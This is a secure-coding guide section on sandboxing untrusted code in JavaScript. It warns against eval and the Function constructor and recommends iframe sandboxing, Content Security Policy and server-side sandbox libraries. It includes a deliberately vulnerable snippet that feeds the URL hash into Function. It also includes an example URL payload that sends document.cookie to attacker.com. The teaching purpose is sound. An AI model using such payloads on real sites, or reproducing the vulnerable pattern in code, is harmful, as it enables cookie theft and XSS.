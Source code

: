 Sandboxing
==========

Especially in the [Output Encoding][1] and [Database Security][2] sections, you
were told that user input should always be handled as untrusted and unsafe data.
Moreover, user input data should never be subject of string concatenation to
computed, for examples, database queries.

You'll find more General Coding Practices on [OWASP SCP - Quick Reference
Guide][3] which we will address together:

* "_Do not pass user supplied data to any dynamic execution function_"
* "_Restrict users from generating new code or altering existing code_"

Let's be brief - `eval` is evil (or at least, it is when misunderstood)!

[`eval`][4] is a JavaScript function which, generally speaking, that evaluates a
given argument (`String`) as source code, allowing it to execute in the runtime
context.

This would be the same as to dynamically adding a new `<script>` HTML element to
the page's body.

Note - evaluating arbitrary user input in your application's runtime context
**SHOULD NEVER** be done.

`eval` is not the only way to evaluate arbitrary `String`s, you may want to have
a look at [Function constructor][5]. We'll go with the simple examples

```javascript
const myAlert = Function('alert("' + document.location.hash.substring(1) + '")');
myAlert();
```

So, let's visit and "share sorrys"

```
https://example.com/#sorry");(new Image).src="//attacker.com/?cookie="+document.cookie;("
```

Rule of thumb and furthermore, ensure that user input (as other data sources may
cause you troubles): [identify and classify your data sources as "trusted" and
"untrusted"][6] and **ALWAYS** (but **ALWAYS) perform [input validation][7],
rejecting the invalid input.

If you really need to execute untrusted data, please use a sandbox.

On the client-side, the best you can do is load the insecure content in a
`<iframe>` HTML element with the attribute `sandbox` set. You can [find the
specification here][8]. Whenever possible, provide a [Content Security
Policy][9].

On the server-side, you have a few more options.
Have a look at these projects:

* [gf3/sanbox][10]
* [patriksimek/vm2][11]
* [PhantomJS][12] (_a headless WebKit scriptable with a JavaScript API._)

**Note** that [Node.js VM module][13] is not intended to execute untrusted code.

[1]: ../output-encoding/README.md
[2]: ../database-security/README.md
[3]: https://www.owasp.org/index.php/OWASP_Secure_Coding_Practices_-_Quick_Reference_Guide
[4]: http://www.ecma-international.org/ecma-262/6.0/#sec-eval-x
[5]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function
[6]: ../input-validation/data-sources.md
[7]: ../input-validation/README.md
[8]: https://html.spec.whatwg.org/multipage/iframe-embed-object.html#attr-iframe-sandbox
[9]: ./content-security-policy.md
[10]: https://github.com/gf3/sandbox
[11]: https://github.com/patriksimek/vm2
[12]: http://phantomjs.org/
[13]: https://nodejs.org/dist/latest-v6.x/docs/api/vm.html
